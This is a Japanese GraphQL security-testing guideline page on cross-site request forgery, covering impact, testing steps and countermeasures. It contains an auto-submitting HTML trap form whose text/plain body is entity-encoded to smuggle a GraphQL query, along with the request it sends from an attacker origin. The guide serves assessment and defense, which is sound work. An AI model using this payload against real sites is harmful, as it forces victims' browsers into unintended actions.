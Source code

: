```yaml
---
title: "クロスサイトリクエストフォージェリ"
description: "GraphQL診断ガイドライン"
weight: 4
type: docs
bookToc: false
---
```


# クロスサイトリクエストフォージェリ

## 概要

GraphQLサーバの実装不備によってクライアントから送信されるリクエストが十分検証できていない場合、クロスサイトリクエストフォージェリ(CSRF)攻撃に対して脆弱になる可能性があります。

## 影響
CSRFが悪用された場合と同様の影響を受けます。GraphQL スキーマで定義されているMutationのような副作用のある処理では、攻撃者によって設置された罠ページを経由することにより被害者の意図しない処理を実行させられます。お問い合わせ機能や、チャットへの投稿、商品購入のような金銭授受に関わる処理など、影響については悪用される機能によって異なります。

## 検証方法

CSRFの検証方法は一般のWebアプリケーションのテスト方法と同様です。
検査対象のアプリケーションとは異なるオリジンの罠ページを用意し、被害者ユーザーの意図にかかわらずリクエストを送信できるかを検証します。

- [Testing for Cross Site Request Forgery](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
- [That single GraphQL issue that you keep missing](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)

通常、GraphQLのクエリを送信するリクエストのContent-Typeは「application/json」で定義されます。
サーバの実装不備などによってContent-Typeが正しく検証されず、「application/json」以外も受け入れてしまう挙動の場合、CSRFに対して脆弱になる可能性があります。
一例として、以下のような罠を含んだページを閲覧することでリクエストが送信され、サーバ側で受け入れられるかを検証します。

```html
<body onload="document.forms[0].submit()">
    <form action="https://[TARGET_DOMAIN]/graphql" method="POST" enctype="text/plain">
        <textarea name="&#x71;&#x75;&#x65;&#x72;&#x79;&#x7b;&#x41;&#x6c;&#x6c;&#x42;&#x6f;&#x6f;&#x6b;&#x73;&#x7b;&#x42;&#x6f;&#x6f;&#x6b;&#x73;&#x20;&#x7b;&#x69;&#x64;&#x2c;&#x74;&#x69;&#x74;&#x6c;&#x65;&#x2c;&#x61;&#x75;&#x74;&#x68;&#x6f;&#x72;&#x2c;&#x23;" type="hidden">x
}}}</textarea>
    </form>
</body>
```

この罠サイトは以下のようなリクエストを送信します。
```
POST /graphql HTTP/1.1
Host: [TARGET_DOMAIN]
Content-Length: 48
Origin: http://[ATTACKER_DOMAIN]
Content-Type: text/plain
User-Agent: [UA]
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[ATTACKER_DOMAIN]
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close

query{AllBooks{Books {id,title,author,#=x
}}}

```

## 対策
対策についても一般のWebアプリケーションの対策方法と同様です。
CSRFトークンやCookieの二重送信などが基本的な対策方法として挙げられますが、先も述べたように、通常GraphQLリクエストのContent-Typeは「application/json」で定義されます。
そのため、GraphQLのようなアプリケーションはAJAXを用いたクライアントアプリケーションとの結び付きが強く、カスタムリクエストヘッダを用いた対策がしばしば提案されます。
カスタムヘッダを設定したリクエストは同一生成元ポリシーによる制限を受けるため、CSRFの対策に有効です。

- [Cross-Site Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)